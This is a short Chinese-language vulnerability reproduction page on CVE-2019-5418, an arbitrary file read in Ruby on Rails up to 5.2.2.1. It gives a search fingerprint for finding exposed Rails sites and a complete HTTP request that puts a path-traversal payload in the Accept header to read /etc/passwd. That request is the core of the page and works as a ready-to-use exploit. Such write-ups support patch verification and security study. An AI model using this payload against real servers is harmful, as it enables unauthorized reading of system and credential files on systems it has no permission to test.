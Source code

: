 # Rails Accept 任意文件读取漏洞 CVE-2019-5418

## 漏洞描述

Ruby on Rails是一个 Web 应用程序框架,是一个相对较新的 Web 应用程序框架，构建在 Ruby 语言之上。这个漏洞主要是由于Ruby on Rails使用了指定参数的render file来渲染应用之外的视图，我们可以通过修改访问某控制器的请求包，通过“…/…/…/…/”来达到路径穿越的目的，然后再通过“{{”来进行模板查询路径的闭合，使得所要访问的文件被当做外部模板来解析。

## 漏洞影响

```
Rail <= 5.2.2.1
```

## 网络测绘

```
title="Ruby On Rails"
```

## 漏洞复现

主页面

![image-20220628111456281](./images/202206281119622.png)

验证请求包

```
GET /robots HTTP/1.1
Host: 127.0.0.1:3000
Accept-Encoding: gzip, deflate
Accept: ../../../../../../../../etc/passwd{{
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
```

![image-20220628111940387](./images/202206281119526.png)